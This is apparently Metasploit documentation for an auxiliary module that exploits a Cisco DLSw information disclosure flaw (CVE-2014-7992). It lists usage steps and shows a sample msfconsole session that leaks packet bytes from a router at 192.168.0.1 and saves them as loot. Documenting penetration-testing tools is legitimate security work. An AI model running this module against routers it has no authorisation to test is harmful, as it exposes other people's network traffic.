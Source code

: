 ## Vulnerable Application

This module implements the DLSw information disclosure retrieval. There is a bug in Cisco's DLSw implementation affecting 12.x and 15.x trains that allows an unauthenticated remote attacker to retrieve the partial contents of packets traversing a Cisco router with DLSw configured and active.

## Verification Steps

1. Start msfconsole
2. Do: `use modules/auxiliary/scanner/dlsw/dlsw_leak_capture`
3. set `RHOSTS [ip]`
4. Do: `run`

## Scenarios

### IOS version 12.4(8) and Kali Linux 2019.3

  ```
  msf5 > use modules/auxiliary/scanner/dlsw/dlsw_leak_capture
  msf5 auxiliary(scanner/dlsw/dlsw_leak_capture) > set RHOSTS 192.168.0.1
    RHOSTS => 192.168.0.1
  msf5 auxiliary(scanner/dlsw/dlsw_leak_capture) > run
    [*] 192.168.0.1:2067      - Checking for DLSw information disclosure (CVE-2014-7992)
    [+] 192.168.0.1:2067      - Vulnerable to DLSw information disclosure; leaked 72 bytes
    [*] 192.168.0.1:2067      - DLSw leaked data stored in /root/.msf4/loot/20191124231804_default_192.168.0.1_dlsw.packet.cont_518857.bin
    [*] 192.168.0.1:2067      - Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
  ```
